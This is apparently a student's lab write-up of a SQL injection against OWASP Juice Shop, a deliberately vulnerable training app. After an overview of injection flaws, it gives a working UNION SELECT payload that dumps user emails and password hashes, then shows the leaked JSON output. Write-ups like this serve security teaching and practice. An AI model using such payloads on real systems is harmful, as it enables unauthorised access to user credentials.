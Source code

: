 # A3-2021 - Injection

## Overview
[Injection](https://owasp.org/Top10/A03_2021-Injection/) vulnerabilities occur when untrusted data is sent to an interpreter as part of a command or query. This happens when user-supplied data is not properly validated, filtered, or sanitized before being processed by the application. Injection flaws are particularly dangerous because they can allow attackers to execute unintended commands or access data without proper authorization.

The most common types of injection attacks include SQL injection, NoSQL injection, OS command injection, and LDAP injection. These vulnerabilities arise when applications construct queries or commands by concatenating user input directly into the query string, rather than using parameterized queries or prepared statements.

Injection attacks can result in data loss, corruption, or disclosure to unauthorized parties, loss of accountability, denial of access, and sometimes complete host takeover. The business impact depends on the needs of the application and data protection requirements, but injection vulnerabilities are consistently found in applications and can be devastating when successfully exploited.

## Reconaisence

## Exploit

After much trial and error, settled on this url-encoded injection.

`'))%20union%20all%20select%201,email,username,4,password,6,7,8,9%20from%20Users%20--%20`. This returned items from the shop, but it also returned at the end of the waht looked like users.

```json
{
  "id": 46,
  "name": "DSOMM & Juice Shop User Day Ticket",
  "description": "You are going to the OWASP Global AppSec San Francisco 2024? <a href=\"https://www.eventbrite.com/e/owasp-global-appsec-san-francisco-2024-tickets-723699172707\" target=\"_blank\">Get a ticket*</a> for this amazing side event as well! Check the juice-packed agenda <a href=\"https://owasp.org/www-project-juice-shop/#div-userday2024\" target=\"_blank\">here</a> for all the details!<br /><br />*=scroll down to <strong>Elevate: DSOMM and Juice Shop User Day (Sept. 25)</strong> after clicking <em>Get Tickets</em> on Eventbrite. Ticket price set to only covers fees for room, AV, and catering throughout the day.",
  "price": 55.2,
  "deluxePrice": 55.2,
  "image": "user_day_ticket.png",
  "createdAt": "2025-06-09 11:30:05.779 +00:00",
  "updatedAt": "2025-06-09 11:30:05.779 +00:00",
  "deletedAt": "2025-06-09 11:30:06.552 +00:00"
},
{
  "id": 1,
  "name": "admin@juice-sh.op",
  "description": "",
  "price": 4,
  "deluxePrice": "0192023a7bbd73250516f069df18b500",
  "image": 6,
  "createdAt": 7,
  "updatedAt": 8,
  "deletedAt": 9
},
{
  "id": 1,
  "name": "jim@juice-sh.op",
  "description": "",
  "price": 4,
  "deluxePrice": "e541ca7ecf72b8d1286474fc613e5e45",
  "image": 6,
  "createdAt": 7,
  "updatedAt": 8,
  "deletedAt": 9
},
{
  "id": 1,
  "name": "bender@juice-sh.op",
  "description": "",
  "price": 4,
  "deluxePrice": "0c36e517e3fa95aabf1bbffc6744a4ef",
  "image": 6,
  "createdAt": 7,
  "updatedAt": 8,
  "deletedAt": 9
},
{
  "id": 1,
  "name": "bjoern.kimminich@gmail.com",
  "description": "bkimminich",
  "price": 4,
  "deluxePrice": "6edd9d726cbdc873c539e41ae8757b8c",
  "image": 6,
  "createdAt": 7,
  "updatedAt": 8,
  "deletedAt": 9
}

SQL injection to return user information was possible. This exploit on it own can be devastating, but paired with cryptographic failures, this exploit chain becomes much worse.
